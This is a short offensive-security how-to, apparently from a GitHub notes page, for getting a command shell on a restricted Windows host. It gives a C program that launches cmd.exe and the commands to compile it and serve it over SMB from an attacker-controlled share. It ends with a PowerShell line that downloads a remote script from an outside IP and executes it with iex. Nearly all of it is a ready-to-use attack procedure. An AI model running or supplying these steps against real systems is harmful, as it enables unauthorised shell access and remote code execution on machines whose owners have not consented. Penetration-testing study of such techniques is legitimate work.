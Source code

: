 # Indirect Shell in Restricted Environment

Shell access can be gained in a restricted environment by hosting a binary in the local share and accessing it from the target.

1. Create `pwn.c` with following content

        #include <stdlib.h>
            int main() {
            system("C:\\Windows\\System32\\cmd.exe");
        }

2. Compile the C program to generate `pwn.exe`

        apt install mingw-w64
        x86_64-w64-mingw32-gcc pwn.c -o pwn.exe

3. Start an SMB server to serve the binary

        /usr/share/setoolkit/venv/bin/smbserver.py -smb2support share ./pwn/

4. Download the binary onto the target Windows server by accessing following path (via MS Paint or any other option). Once downloaded, open/execute the binary to get a command shell.

        \\<Attacker_IP>\share\pwn.exe

    
5. Additional files could be downloaded using powershell
   
        powershell  -Command "iex (New-Object Net.WebClient).DownloadString('http://10.14.14.9/shell3.ps1')"
